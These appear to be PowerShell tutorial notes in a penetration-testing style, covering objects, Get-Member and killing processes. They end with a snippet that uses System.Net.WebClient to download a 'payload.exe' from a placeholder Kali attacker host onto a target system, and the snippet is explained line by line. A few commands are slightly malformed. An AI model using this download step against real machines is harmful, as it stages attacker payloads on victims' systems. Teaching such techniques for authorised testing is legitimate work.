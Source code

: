## Objects
```powershell
Get-Process Format-List *
```

- Each objects has a multiple methods that we can use to manipulate a particular object.
- To get a list of methods For objects associated with a cmdlet, we can use get-member

```powershell
Get-Process | Get-Member -MemberType Method
```

1. we have identified an object (in this case, a process **firefox**) we would like to manipulate in some way using the Get-Process cmdlet
2. We have determined the methods that are available For use with the objects that were returned by using: 
```powershell
Get-Process | Get-Member cmdlet and pipeline
```

3. We have decided that the Kill method is the method we would like to use For that process( as an example)

```powershell
Get-Process -Name "firefox" | Kill
```

> we can call the get-process along with the -Name parameter For the firefox process, and pipe the Kill method that we identified using the get-member cmdlet.
This command will kill any firefox processes.

### Creating .NET objects
As an example of creating a basic object based off of a .NET class with the "Net-Object" cmdlet, we can use the "Net.WebClient" .NET system class to download a file to a target system with the following code:

```powershell

$webclient = New-Object System.Net.WebClient
$payload_url = "https://<kali ip>/payload.exe"
$file = "C:\ProgramData\payload.exe"
$webclient.DownloadFile($payload_url, $file)

```

- explainning the code - line by line

1. We create a variable called $webclient which instantiates the System.Net.WebClient .NET class, which is used to create a web client.
2. We then create another variable $payload_url, which is the url to our payload
3. The $file variable is then used as the location to which we want to save the payload on the target system
4. And finally, we call the $webclient variable with the DownloadFile method which downloads our payload.exe to the target.



